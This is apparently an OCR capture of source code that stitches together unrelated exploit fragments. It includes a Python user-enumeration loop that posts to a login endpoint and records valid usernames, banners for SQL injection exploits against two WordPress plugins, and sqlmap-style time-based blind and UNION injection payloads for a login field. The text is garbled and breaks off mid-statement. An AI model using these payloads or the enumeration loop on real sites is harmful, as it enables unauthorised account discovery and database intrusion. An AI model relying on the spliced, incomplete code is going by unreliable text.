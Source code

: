             payload_str = urllib.parse.urlencode(data, safe=":+")

        except requests.exceptions.Timeout:
            print ("[!] Connection to host timed out !")
            sys.exit(1)

        try:
            # s = requests.Session()
            # s.verify = False
            time.sleep(2)
            r = requests.post(url, headers=headers2, data=payload_str, timeout=20, verify=False, proxies=proxies)
            if "500" in r.text:
                print (Fore.RED + f"[-] Invalid user: {users.strip()}" + Style.RESET_ALL)
                f = open("enumeratedUserList.txt", "a+")
                f.write(Fore.RED + f"[-] Invalid user: {users.strip()}\n" + Style.RESET_ALL)
                f.close()
            elif "200" in r.text:
                print (Fore.GREEN + f"[+] Valid user: {users.strip()}" + Style.RESET_ALL)
                f = open("enumeratedUserList.txt", "a+")
                f.write(Fore.GREEN + f"[+] Valid user: {users.strip()}\n" + Style.RESET_ALL)
                f.close()
            else:
                print (Fore.RED + f"[-] Invalid user: {users.strip()}" + Style.RESET_ALL)
                f = open("enumeratedUserList.txt", "a+")
                f.write(Fore.RED + f"[-] Invalid user: {users.strip()}\n" + Style.RESET_ALL)
                f.close()
        except KeyboardInterrupt:
            sys.exit()
        except requests.exceptions.Timeout:
            print ("[!] Connection to host timed out !")
            sys.exit(1)
        except Exception as e:
            print (Fore.RED + f"Unable to connect to host" + Style.RESET_ALL)
                                    [+] WP User Frontend - SQL Injection
                                    [@] Developed by Ron Jost (Hacker5preme)
                    [+] Copy Content Protection and Content Locking - SQL Injection
                    [@] Developed by Ron Jost (Hacker5preme)
---
Parameter: loginid (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: loginid=hackedpassword=hacked' or '6681'='6681' AND
(SELECT 1959 FROM (SELECT(SLEEP(3)))PuyC) AND
'sDHP'='sDHP&rememberme=on&submit=Login
---
Type: UNION query
Title: Generic UNION query (NULL) - 6 columns
Payload: email=test@test.com' UNION ALL SELECT
with requests.Session() as s:
    headers = { 'Cookie':'wordpress_test_cookie=WP Cookie check',
             'User-Agent':'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_11_6) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/11.1.2 Safari/605.1.15' }
